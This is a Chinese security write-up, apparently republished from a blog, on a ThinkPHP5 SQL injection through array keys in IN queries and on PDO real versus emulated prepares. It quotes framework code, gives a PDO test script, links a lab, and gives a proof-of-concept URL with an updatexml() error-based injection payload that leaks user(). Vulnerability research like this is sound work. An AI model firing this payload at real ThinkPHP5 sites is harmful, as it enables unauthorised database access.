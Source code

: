 > 原文链接: https://www.anquanke.com//post/id/86376 


# 【技术分享】ThinkPHP5 SQL注入漏洞 &amp;&amp; PDO真/伪预处理分析


                                阅读量   
                                **102821**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                    



[![](https://p4.ssl.qhimg.com/t01f4979c6330098e00.jpg)](https://p4.ssl.qhimg.com/t01f4979c6330098e00.jpg)

刚才先知分享了一个漏洞（ https://xianzhi.aliyun.com/forum/read/1813.html ），文中说到这是一个信息泄露漏洞，但经过我的分析，除了泄露信息以外，这里其实是一个（鸡肋）SQL注入漏洞，似乎是一个不允许子查询的SQL注入点。

漏洞上下文如下：



```
&lt;?php
namespace appindexcontroller;
use appindexmodelUser;
class Index
`{`
    public function index()
    `{`
        $ids = input('ids/a');
        $t = new User();
        $result = $t-&gt;where('id', 'in', $ids)-&gt;select();
    `}`
`}`
```

如上述代码，如果我们控制了in语句的值位置，即可通过传入一个数组，来造成SQL注入漏洞。

文中已有分析，我就不多说了，但说一下为什么这是一个SQL注入漏洞。IN操作代码如下：



```
&lt;?php
...
$bindName = $bindName ?: 'where_' . str_replace(['.', '-'], '_', $field);
if (preg_match('/W/', $bindName)) `{`
    // 处理带非单词字符的字段名
    $bindName = md5($bindName);
`}`
...
`}` elseif (in_array($exp, ['NOT IN', 'IN'])) `{`
    // IN 查询
    if ($value instanceof Closure) `{`
        $whereStr .= $key . ' ' . $exp . ' ' . $this-&gt;parseClosure($value);
    `}` else `{`
        $value = is_array($value) ? $value : explode(',', $value);
        if (array_key_exists($field, $binds)) `{`
            $bind  = [];
            $array = [];
            foreach ($value as $k =&gt; $v) `{`
                if ($this-&gt;query-&gt;isBind($bindName . '_in_' . $k)) `{`
                    $bindKey = $bindName . '_in_' . uniqid() . '_' . $k;
                `}` else `{`
                    $bindKey = $bindName . '_in_' . $k;
                `}`
                $bind[$bindKey] = [$v, $bindType];
                $array[]        = ':' . $bindKey;
            `}`
            $this-&gt;query-&gt;bind($bind);
            $zone = implode(',', $array);
        `}` else `{`
            $zone = implode(',', $this-&gt;parseValue($value, $field));
        `}`
        $whereStr .= $key . ' ' . $exp . ' (' . (empty($zone) ? "''" : $zone) . ')';
    `}`
```

可见，$bindName在前边进行了一次检测，正常来说是不会出现漏洞的。但如果$value是一个数组的情况下，这里会遍历$value，并将$k拼接进$bindName。

也就是说，我们控制了预编译SQL语句中的键名，也就说我们控制了预编译的SQL语句，这理论上是一个SQL注入漏洞。那么，为什么原文中说测试SQL注入失败呢？

这就是涉及到预编译的执行过程了。通常，PDO预编译执行过程分三步：

prepare($SQL) 编译SQL语句

bindValue($param, $value) 将value绑定到param的位置上

execute() 执行

这个漏洞实际上就是控制了第二步的$param变量，这个变量如果是一个SQL语句的话，那么在第二步的时候是会抛出错误的：

[![](https://p5.ssl.qhimg.com/t010f97ff00c8509c7f.png)](https://p5.ssl.qhimg.com/t010f97ff00c8509c7f.png)

所以，这个错误“似乎”导致整个过程执行不到第三步，也就没法进行注入了。

但实际上，在预编译的时候，也就是第一步即可利用。我们可以做有一个实验。编写如下代码：



```
&lt;?php
$params = [
    PDO::ATTR_ERRMODE           =&gt; PDO::ERRMODE_EXCEPTION,
    PDO::ATTR_EMULATE_PREPARES  =&gt; false,
];
$db = new PDO('mysql:dbname=cat;host=127.0.0.1;', 'root', 'root', $params);
try `{`
    $link = $db-&gt;prepare('SELECT * FROM table2 WHERE id in (:where_id, updatexml(0,concat(0xa,user()),0))');
`}` catch (PDOException $e) `{`
    var_dump($e);
`}`
```

执行发现，虽然我只调用了prepare函数，但原SQL语句中的报错已经成功执行：

[![](https://p1.ssl.qhimg.com/t010501f5fa073b8a6e.png)](https://p1.ssl.qhimg.com/t010501f5fa073b8a6e.png)

究其原因，是因为我这里设置了PDO::ATTR_EMULATE_PREPARES =&gt; false。

这个选项涉及到PDO的“预处理”机制：因为不是所有数据库驱动都支持SQL预编译，所以PDO存在“模拟预处理机制”。如果说开启了模拟预处理，那么PDO内部会模拟参数绑定的过程，SQL语句是在最后execute()的时候才发送给数据库执行；如果我这里设置了PDO::ATTR_EMULATE_PREPARES =&gt; false，那么PDO不会模拟预处理，参数化绑定的整个过程都是和Mysql交互进行的。

非模拟预处理的情况下，参数化绑定过程分两步：第一步是prepare阶段，发送带有占位符的sql语句到mysql服务器（parsing-&gt;resolution），第二步是多次发送占位符参数给mysql服务器进行执行（多次执行optimization-&gt;execution）。

这时，假设在第一步执行prepare($SQL)的时候我的SQL语句就出现错误了，那么就会直接由mysql那边抛出异常，不会再执行第二步。我们看看ThinkPHP5的默认配置：



```
...
// PDO连接参数
protected $params = [
    PDO::ATTR_CASE              =&gt; PDO::CASE_NATURAL,
    PDO::ATTR_ERRMODE           =&gt; PDO::ERRMODE_EXCEPTION,
    PDO::ATTR_ORACLE_NULLS      =&gt; PDO::NULL_NATURAL,
    PDO::ATTR_STRINGIFY_FETCHES =&gt; false,
    PDO::ATTR_EMULATE_PREPARES  =&gt; false,
];
...
```

可见，这里的确设置了PDO::ATTR_EMULATE_PREPARES =&gt; false。所以，终上所述，我构造如下POC，即可利用报错注入，获取user()信息：

[http://localhost/thinkphp5/public/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1231](http://localhost/thinkphp5/public/index.php?ids%5B0,updatexml(0,concat(0xa,user()),0)%5D=1231)

[![](https://p0.ssl.qhimg.com/t01ddb0775e2712e38e.png)](https://p0.ssl.qhimg.com/t01ddb0775e2712e38e.png)

但是，如果你将user()改成一个子查询语句，那么结果又会爆出Invalid parameter number: parameter was not defined的错误。因为没有过多研究，说一下我猜测：预编译的确是mysql服务端进行的，但是预编译的过程是不接触数据的 ，也就是说不会从表中将真实数据取出来，所以使用子查询的情况下不会触发报错；虽然预编译的过程不接触数据，但类似user()这样的数据库函数的值还是将会编译进SQL语句，所以这里执行并爆了出来。

总体来说，这个洞不是特别好用。期待有人能研究一下，推翻我的猜测，让这个漏洞真正好用起来。类似的触发SQL报错的位置我还看到另外一处，暂时就不说了。

我做了一个Vulhub的环境，大家可以自己测一测：[https://github.com/phith0n/vulhub/tree/master/thinkphp/in-sqlinjection](https://github.com/phith0n/vulhub/tree/master/thinkphp/in-sqlinjection) 




